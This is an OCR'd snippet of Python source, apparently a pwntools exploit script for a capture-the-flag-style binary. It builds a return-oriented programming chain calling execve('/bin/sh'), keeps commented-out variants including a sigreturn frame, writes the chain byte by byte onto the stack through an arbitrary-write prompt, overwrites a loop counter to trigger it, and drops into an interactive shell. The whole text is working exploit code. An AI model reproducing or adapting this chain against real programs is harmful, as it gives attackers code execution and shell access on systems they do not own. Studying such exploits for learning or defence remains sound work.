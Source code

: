 ```python

# ROP chain for execve("/bin/sh", 0, 0)
# === Build the ROP chain in raw bytes === simple mode
rop = b'' 
rop += p64(POP_RDI)
rop += p64(bin_sh_addr)
rop += p64(POP_RAX)
rop += p64(59)  # execve syscall
rop += p64(POP_RDX)
rop += p64(0)
rop += p64(SYSCALL)

# payload 2 with rsi
# rop = b''
# rop += p64(POP_RDI)
# rop += p64(bin_sh_addr)
# rop += p64(POP_RAX)
# rop += p64(0)
# rop += p64(MOV_RSI_PAX)
# rop += p64(POP_RAX)
# rop += p64(59)  # execve syscall
# rop += p64(POP_RDX)
# rop += p64(0)
# rop += p64(SYSCALL)

# payload 3
# frame = SigreturnFrame()
# frame.rax = constants.SYS_execve
# frame.rdi = bin_sh
# frame.rsi = 0
# frame.rdx = 0
# frame.rip = SYSCALL

# rop = p64(POP_RAX)
# rop += p64(15)
# rop += p64(SYSCALL)

# rop2 = bytes(frame)

# === Write the payload byte-by-byte to stack ===
stack = int(adress, 16) + 0x190  # where to start writing

for i, byte in enumerate(rop):
    addr = stack + i
    p.sendlineafter(b'Read or Write? (r/w):', b'w')
    p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', f"0x{addr:x}".encode())
    p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', f"0x{byte:02x}".encode())
    warn(f"Writing byte 0x{byte:02x} to 0x{addr:x}")
    p.recvuntil(b'Wrote')

# --- Step 5: Trigger the ROP chain ---
# Overwrite the loop counter again to exit the loop and trigger the ROP chain
p.sendlineafter(b'Read or Write? (r/w):', b'w')
p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', adress)
p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', b'0x1')

# Get interactive shell
p.interactive()
```

